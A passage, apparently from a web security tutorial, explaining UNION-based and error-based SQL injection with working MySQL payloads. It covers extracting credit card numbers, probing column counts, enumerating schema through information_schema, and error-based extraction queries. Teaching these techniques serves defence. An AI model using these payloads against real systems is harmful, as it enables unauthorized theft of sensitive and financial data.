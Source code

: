 **Attack payload:**
```
1' UNION SELECT credit_card_number, security_code FROM creditcards--
```

**Resulting malicious query:**
```sql
SELECT name, email FROM users WHERE id = '1' UNION SELECT credit_card_number, security_code FROM creditcards--';
```

This attack allows extraction of sensitive financial data from unrelated tables. The attacker must:
1. **Determine column count** using ORDER BY or UNION SELECT NULL
2. **Identify data types** of each column
3. **Enumerate database schema** to find valuable tables
4. **Extract data** systematically

**Advanced UNION injection example:**
```sql
-- Step 1: Determine column count
1' ORDER BY 1-- (success)
1' ORDER BY 2-- (success)
1' ORDER BY 3-- (error = 2 columns)

-- Step 2: Extract database information
1' UNION SELECT database(), version()--
1' UNION SELECT table_name, column_name FROM information_schema.columns--
```

**Error-based SQL Injection:**

Database error messages can reveal valuable information about the database structure, enabling more sophisticated attacks.

**Triggering error disclosure:**
```http
GET /user.php?id=1' HTTP/1.1
Host: vulnerable-site.com
```

**Example error responses revealing system information:**
```
MySQL Error: You have an error in your SQL syntax near ''1'' at line 1
Table 'myapp.users' doesn't exist
Unknown column 'admin_password' in 'field list'
```

**Exploitation techniques:**
```sql
-- Extract database version
1' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--

-- Extract table names
1' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--

-- Extract column information
1' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--
```
